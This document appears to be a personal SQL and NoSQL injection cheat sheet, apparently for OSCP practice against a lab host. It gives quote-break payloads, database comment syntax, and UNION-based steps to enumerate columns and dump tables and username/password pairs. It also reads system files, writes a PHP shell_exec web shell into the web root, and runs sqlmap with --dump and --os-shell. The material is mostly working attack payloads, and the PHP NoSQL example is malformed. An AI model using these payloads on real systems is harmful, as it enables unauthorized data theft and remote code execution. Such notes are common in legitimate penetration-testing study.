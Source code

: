 ### Payloads

```SQL
' or 1=1 -- true
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
' or 1=1 -- true
```


### Comments
```SQL
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```



### Column Number Enumeration

```SQL
http://10.11.0.22/debug.php?id=55 order by 1
# we need to increment 1 until we get error => number of columns
```

### Understanding the Layout of the Output

```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3
IF we Get 3 fiels printed : that our max exfitration of data
```

### Extracting Data from the Database
```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

#TO UNDERSTAND THE LOGIC :
#(FIRST QUERY return 3 outputs) union all (THE SECOUND PAYLOAD QUERY MUST return 3 outputs)
#(SELECT 1,2,3 FROM XXX) UNION ALL (SELECT 1,2,3 FROM YYY)

```

```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

### From SQL Injection to Code Execution
*Read file from FS*
```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
*Write to File In FS*
```SQL
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE "C:/wamp/www/PHP/upload/tmp/backdoor.php"
```

### SQLMap -- Forbidden  in OSCP

```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
```

```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
```

```shell
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```



## NOSQL

### Paylaod

```SQL
' || 'a'=='a
sleep (10000)
```

#### Json
```json
{"$ne": 1}
```

#### PHP

```php
param => [ '$regex': => '\d+' ] // Payload: [ '$regex': => '\d+' ]
```